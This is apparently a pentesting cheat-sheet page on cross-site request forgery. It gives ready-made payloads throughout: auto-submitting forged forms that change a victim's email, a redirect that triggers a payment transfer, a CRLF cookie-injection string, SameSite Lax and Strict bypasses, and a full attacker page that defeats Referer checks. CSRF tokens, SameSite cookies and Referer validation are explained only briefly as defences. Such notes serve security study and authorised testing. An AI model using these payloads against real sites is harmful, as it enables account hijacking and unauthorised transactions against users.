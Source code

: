 # CSRF

## <mark style="color:yellow;">**Exploit**</mark>

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## <mark style="color:yellow;">Defences</mark>

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

<!---->

*   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
* `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## <mark style="color:yellow;">CSRF tokens bypass</mark>

* Switch from `POST` to the `GET` method
* Remove the parameter containing the token
* Invent a token in the required format (the app doesn't keep valid server-side tokens).
* Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack  (some apps don't validate if the token belongs to the same session as the requesting user).
*   Are there two token: one in a cookie and one in hidden input? (this can also have the same value)

    * Some apps do tie the CSRF token to a cookie, but not to the session cookie.
    * Can you set a cookie? Ex. Header injection with `CRLF`.(`%0d%0a`)
    * ```
      /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
      ```
    * Log in to the application with your account -> obtain a valid token and associated cookie.
    * Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

    ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## <mark style="color:yellow;">SameSite cookies bypass</mark>

### Lax bypass

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### <mark style="color:yellow;">Strict bypass</mark>

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{% hint style="info" %}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{% endhint %}

## <mark style="color:yellow;">Referer-based validation bypass</mark>

* Some apps validate the Referer header if present, but skip if omitted

```html
<meta name="referrer" content="never">
```

* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * To sed referer you need to add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`

{% hint style="success" %}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com` that looks strange you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

<pre class="language-html"><code class="lang-html">&#x3C;!-- http://attacker-website.com/ -->
<strong>&#x3C;html>
</strong>  &#x3C;meta name="referrer" content="unsafe-url"/>
  &#x3C;body>
    &#x3C;form action="https://vulnerable-website.com/change-email" method="POST">
      &#x3C;input type="hidden" name="email" value="test@test.com" />
      &#x3C;input type="submit" value="Submit request" />
    &#x3C;/form>
    &#x3C;script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    &#x3C;/script>
  &#x3C;/body>
&#x3C;/html>
</code></pre>
{% endhint %}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy. ([https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/))

